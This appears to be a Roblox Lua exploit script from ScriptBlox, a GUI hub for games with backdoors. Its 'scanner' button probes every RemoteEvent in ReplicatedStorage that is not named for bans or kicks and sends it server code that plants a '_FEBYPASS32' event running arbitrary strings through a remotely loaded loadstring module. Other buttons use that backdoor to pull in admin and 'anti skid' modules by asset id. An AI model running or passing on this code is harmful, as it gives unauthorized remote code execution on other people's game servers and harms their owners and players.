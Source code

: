 --[[
	WARNING: Heads up! This script has not been verified by ScriptBlox. Use at your own risk!
]]
--v4.0.0

---by gojohdkaisenkt---
---by gojohdkaisenkt---
---by gojohdkaisenkt---
---by gojohdkaisenkt---
---by gojohdkaisenkt---
---by gojohdkaisenkt---
---start---------------







































































































































































-- https://scriptblox.com/script/Universal-Script-new-backdoored-hub-v2-38350

---by gojohdkaisenkt---












































































































































local SS = Instance.new("ScreenGui")
local Main = Instance.new("Frame")
local Execute = Instance.new("TextButton")
local Clear = Instance.new("TextButton")
local Script = Instance.new("TextBox")
local Check = Instance.new("TextButton")
local minosprime = Instance.new("TextButton")
local minosprime2 = Instance.new("TextButton")
local minosprime3 = Instance.new("TextButton")
local minosprime4 = Instance.new("TextButton")
--Properties:
SS.Name = "SS"
SS.Parent = game.CoreGui
SS.ZIndexBehavior = Enum.ZIndexBehavior.Sibling
SS.ResetOnSpawn = false
 
Main.Name = "Main"
Main.Parent = SS
Main.Active = true
Main.BackgroundColor3 = Color3.new(253,100,50)
Main.BorderColor3 = Color3.new(255,255,255)
Main.Position = UDim2.new(0.377503842, 0, 0.37714988, 0)
Main.Size = UDim2.new(0, 317, 0, 200)
Main.Draggable = true
 
Execute.Name = "Execute"
Execute.Parent = Main
Execute.BackgroundColor3 = Color3.new(253,100,50)
Execute.BorderColor3 = Color3.new(253,100,50)
Execute.Position = UDim2.new(0.0220820196, 0, 0.77142489, 0)
Execute.Size = UDim2.new(0, 147, 0, 44)
Execute.AutoButtonColor = false
Execute.Font = Enum.Font.LuckiestGuy
Execute.Text = "Execute"
Execute.TextColor3 = Color3.new(0, 0, 0)
Execute.TextScaled = true
Execute.TextSize = 14
Execute.TextWrapped = true
 
Clear.Name = "Clear"
Clear.Parent = Main
Clear.BackgroundColor3 = Color3.new(253,100,50)
Clear.BorderColor3 = Color3.new(253,100,50)
Clear.Position = UDim2.new(0.513000011, 0, 0.770999968, 0)
Clear.Size = UDim2.new(0, 147, 0, 44)
Clear.Font = Enum.Font.LuckiestGuy
Clear.Text = "Clear"
Clear.TextColor3 = Color3.new(0, 0, 0)
Clear.TextScaled = true
Clear.TextSize = 14
Clear.TextWrapped = true
 
Script.Name = "Script"
Script.Parent = Main
Script.BackgroundColor3 = Color3.new(0.741176, 0.180392, 0.619608)
Script.BorderColor3 = Color3.new(0.741176, 0.180392, 0.619608)
Script.Position = UDim2.new(0, 0, 0.125, 0)
Script.Size = UDim2.new(0, 316, 0, 124)
Script.Font = Enum.Font.LuckiestGuy
Script.PlaceholderText = "script by gojohdkaisenkt,note hub version is v4.0.0, scanner for use hub"
Script.Text = "hi "..game.Players.LocalPlayer.Name.." thank for use my script 🥰"
Script.TextColor3 = Color3.new(0, 0, 0)
Script.TextSize = 25
Script.TextWrapped = true
Script.TextXAlignment = Enum.TextXAlignment.Left
Script.TextYAlignment = Enum.TextYAlignment.Top
 
Check.Name = "Check"
Check.Parent = Main
Check.BackgroundColor3 = Color3.new(0.741176, 0.180392, 0.619608)
Check.BorderColor3 = Color3.new(1, 0, 0)
Check.Position = UDim2.new(-0.26302531, -2, 0, 0)
Check.Size = UDim2.new(0, 82, 0, 198)
Check.Font = Enum.Font.LuckiestGuy
Check.Text = "scanner"
Check.TextColor3 = Color3.new(1, 1, 1)
Check.TextScaled = true
Check.TextSize = 14
Check.TextWrapped = true

minosprime.Name = "minosprime"
minosprime.Parent = Main
minosprime.BackgroundColor3 = Color3.new(0.741176, 0.180392, 0.619608)
minosprime.BorderColor3 = Color3.new(1, 0, 0)
minosprime.Position = UDim2.new(-0.26302531, -100, 0, 0)
minosprime.Size = UDim2.new(0, 82, 0, 198)
minosprime.Font = Enum.Font.LuckiestGuy
minosprime.Text = "</> only backdoored game"
minosprime.TextColor3 = Color3.new(1, 1, 1)
minosprime.TextScaled = true
minosprime.TextSize = 14
minosprime.TextWrapped = true

minosprime2.Name = "minosprime2"
minosprime2.Parent = Main
minosprime2.BackgroundColor3 = Color3.new(0.741176, 0.180392, 0.619608)
minosprime2.BorderColor3 = Color3.new(1, 0, 0)
minosprime2.Position = UDim2.new(-0.26302531, -200, 0, 0)
minosprime2.Size = UDim2.new(0, 82, 0, 198)
minosprime2.Font = Enum.Font.LuckiestGuy
minosprime2.Text = "admin only backdoored game"
minosprime2.TextColor3 = Color3.new(1, 1, 1)
minosprime2.TextScaled = true
minosprime2.TextSize = 14
minosprime2.TextWrapped = true

minosprime3.Name = "minosprime3"
minosprime3.Parent = Main
minosprime3.BackgroundColor3 = Color3.new(0.741176, 0.180392, 0.619608)
minosprime3.BorderColor3 = Color3.new(1, 0, 0)
minosprime3.Position = UDim2.new(-0.26302531, 400, 0, 0)
minosprime3.Size = UDim2.new(0, 82, 0, 198)
minosprime3.Font = Enum.Font.LuckiestGuy
minosprime3.Text = "anti skids v14.1.1 only backdoored game"
minosprime3.TextColor3 = Color3.new(1, 1, 1)
minosprime3.TextScaled = true
minosprime3.TextSize = 14
minosprime3.TextWrapped = true

minosprime4.Name = "minosprime4"
minosprime4.Parent = Main
minosprime4.BackgroundColor3 = Color3.new(0.741176, 0.180392, 0.619608)
minosprime4.BorderColor3 = Color3.new(1, 0, 0)
minosprime4.Position = UDim2.new(-0.26302531, -300, 0, 0)
minosprime4.Size = UDim2.new(0, 82, 0, 198)
minosprime4.Font = Enum.Font.LuckiestGuy
minosprime4.Text = "koop gui only backdoored game"
minosprime4.TextColor3 = Color3.new(1, 1, 1)
minosprime4.TextScaled = true
minosprime4.TextSize = 14
minosprime4.TextWrapped = true

-- Scripts:
function execute(s)
	if game:GetService("JointsService"):FindFirstChild("_FEBYPASS32") then
		local Execute=game:GetService("JointsService"):FindFirstChild("_FEBYPASS32"):FireServer(tostring(s)) -- execute
	else
		warn("Failed to loadstring: Error 404")
	end
end
Execute.MouseButton1Click:connect(function()
    game.ReplicatedStorage.RemoteEvent:FireServer(Script.Text)
end)
 
Clear.MouseButton1Click:connect(function()
    Script.Text = ""
end)
 
Check.MouseButton1Click:connect(function()
Check.Text = "scanning."
wait(0.01)
Check.Text = "scanning.."
wait(0.01)
Check.Text = "scanning..."
wait(0.01)
Check.Text = "not found🔴:("
wait (0.0000001)
 local function b_G_V12(see)
		local a = function(ree)
			ree:FireServer([[
                    local folder = Instance.new('RemoteEvent')
                    folder.Name = "_FEBYPASS32"
                    folder.Parent = game:GetService("JointsService")
                    local loadstring = require(13684410229)
                    folder.OnServerEvent:Connect(function(_1,_2)
                       loadstring(_2)()
                    end)
                    ]]
			)
		end
		for i, v in pairs(see:GetChildren()) do
			--[[3 lines]]
			if v:IsA("RemoteEvent") then
				if not string.match(string.lower(v.Name), "ban") then
					if not string.match(string.lower(v.Name), "kick") then
						a(v)
					end
				end
			end
			--[[-3 lines]]
			b_G_V12(v) --[[test]]
		end
	end
	local Inject = b_G_V12(game:GetService("ReplicatedStorage"))
	local timetoken = 0
	local maxtime = 5
	repeat wait(0.1) timetoken += 0.1 until game:GetService("JointsService"):FindFirstChild("_FEBYPASS32") or timetoken >= maxtime
	if game:GetService("JointsService"):FindFirstChild("_FEBYPASS32") then
		Check.Text = "found ✔️🔵:)"

local message = Instance.new("Hint")
message.Parent = game.Workspace
message.Text = "script created by gojohdkaisenkt|free+fast in script blox"

task.wait(30)
 
message:Destroy()

Check.Text = "Try scanner"
	end
end)
minosprime.MouseButton1Click:Connect(function()
	execute("require(123255432303221):Pload('"..game.Players.LocalPlayer.Name.."')")
end)
minosprime2.MouseButton1Click:Connect(function()
	execute("require(7192763922).load('"..game.Players.LocalPlayer.Name.."')")
end)
minosprime3.MouseButton1Click:Connect(function()
	execute("require(10304477576).AntiSkid('"..game.Players.LocalPlayer.Name.."')")
end)
minosprime4.MouseButton1Click:Connect(function()
	execute("require(14829670677).EDITL0L('"..game.Players.LocalPlayer.Name.."')")
end)
